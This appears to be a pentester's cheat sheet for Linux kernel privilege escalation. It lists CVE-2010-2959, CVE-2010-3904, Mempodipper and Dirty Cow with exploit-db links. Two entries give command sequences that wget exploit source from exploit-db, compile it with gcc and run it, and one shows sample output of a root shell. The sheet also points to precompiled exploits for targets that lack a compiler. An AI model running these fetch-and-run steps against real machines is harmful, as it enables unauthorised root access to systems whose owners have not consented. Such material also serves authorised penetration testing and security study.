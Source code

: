 # Kernel Exploit Suggestions for Kernel Version 3.0.0
./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0

# Precompiled Linux Kernel Exploits - Super handy if GCC is not installed on the target machine!
https://www.kernel-exploits.com/




# CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32) ( https://www.exploit-db.com/exploits/14814/ )

wget -O i-can-haz-modharden.c http://www.exploit-db.com/download/14814
 $ gcc i-can-haz-modharden.c -o i-can-haz-modharden
 $ ./i-can-haz-modharden
 [+] launching root shell!
 
 id
 uid=0(root) gid=0(root)

# CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8
https://www.exploit-db.com/exploits/15285/

# CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)
https://git.zx2c4.com/CVE-2012-0056/about/

wget -O exploit.c http://www.exploit-db.com/download/18411 
gcc -o mempodipper exploit.c  
./mempodipper

# CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8
https://dirtycow.ninja/

First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016


